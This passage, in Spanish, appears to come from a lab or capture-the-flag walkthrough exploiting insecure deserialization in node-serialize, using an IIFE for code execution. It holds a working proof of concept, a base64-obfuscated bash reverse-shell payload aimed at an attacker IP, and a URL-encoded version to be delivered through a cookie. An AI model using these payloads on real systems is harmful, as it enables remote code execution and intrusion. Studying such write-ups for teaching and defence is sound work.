 ## Deserializacion Attack (IIFE)

Regresando a la explotacion, primero para probar la vulnerabilidad debemos de generar objeto serializado usando ```node-serialize```, asi que instalaremos ese modulo

```ruby
npm install node-serialize
```

Despues creamos un archivo de js y usaremos este PoC:

```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'whoami \', function(error, stdout, stderr) { console.log(stdout) });}()"}'; 
serialize.unserialize(payload);
```

Observa que la variable payload es la que tiene todo nuestro payload, unico que esta haciendo es definir una funcion que usara **exec** para ejecutar un comando, en este caso es **whoami**, la parte de IIFE entra al final del payload, observa como al final se le agrega un **()**, que como mencione anteriormente, esta permitiendo que la funcion se ejecutara inmediatemente apenas sea definida, el resultado de ejecutar esto, es el resultado de ejecutar el comando **whoami**

![](/assets/img/nodeBlog/10.png)

Asi que ahora debemos de hacer lo mismo pero en la maquina victima, ¿Y como?, usaremos un payload similar a este:

```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'whoami \', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Pero en lugar de ejecutar el whoami, ejecutaremos una reverse shell, y ese payload lo URL encodearemos y lo pasaremos como cookie, si preguntas que por que a la cookie, es por que cuando analizamos el codigo de la aplicacion, la cookie se le pasa al metodo **unserialize**, entonces cuando la aplicacion deserialize la cookie, se estaria deserializando nuestro payload que esta haciendo uso de **IIFE** para ejecutar la funcion y darnos una reverse shell.

Nuestro payload quedaria asi:

```json
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDMgMD4mMQo=|base64 -d|bash',function(error,stdout,stderr){console.log(stdout)});}()"}
```
Date cuenta que la reverse shell esta en base64 y simplemente se decodifica, fue generada de esta forma:

```ruby
echo 'bash -i >& /dev/tcp/<ip>/443 0>&1' | base64
```

Esto si lo URL encodeamos queda algo como esto:

```ruby
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDMgMD4mMQo%3D%7Cbase64%20-d%7Cbash%27%2Cfunction%28error%2Cstdout%2Cstderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D
```
